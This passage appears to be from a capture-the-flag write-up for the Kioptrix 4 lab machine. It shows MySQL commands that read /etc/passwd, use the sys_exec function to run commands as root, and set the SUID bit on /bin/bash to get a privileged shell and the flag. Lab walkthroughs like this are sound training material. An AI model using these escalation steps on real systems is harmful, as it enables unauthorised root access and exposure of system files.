 ![](https://cdn.ziomsec.com/kioptrix4/14.webp)

Since I was executing commands as root, I could use built-in functions like **`load_file`** to read system files.

```mysql
select load_file('/etc/passwd');
```

![](https://cdn.ziomsec.com/kioptrix4/15.webp)

### Exploiting User-Defined SQL Functions

Inside the *mysql* database, I found a table with functions that could be interesting.

```mysql
select * from func;
```

![](https://cdn.ziomsec.com/kioptrix4/16.webp)

The **sys_exec** function seemed interesting, so I tried using it to create a new file in the *root* directory.

```mysql
select sys_exec('touch /root/test.txt');
```

![](https://cdn.ziomsec.com/kioptrix4/17.webp)

After executing the command, I verified it by visiting the root directory and found our test file.

![](https://cdn.ziomsec.com/kioptrix4/18.webp)

Since I could execute commands as *root*, I added an **SUID** bit to the **bash** shell so that I could run it in privileged mode to escalate my privileges.

```mysql
select sys_exec('chmod u+s /bin/bash');
```

![](https://cdn.ziomsec.com/kioptrix4/19.webp)

Verifying the bash shell confirmed that an **SUID** bit was added to it.

```shell
ls -la /bin/bash

# execute bash in privileged mode
bash -p
```

![](https://cdn.ziomsec.com/kioptrix4/20.webp)

With root access, I was able to capture the flag located in the */root* directory.

```shell
cd /root/
cat congrats.txt
```
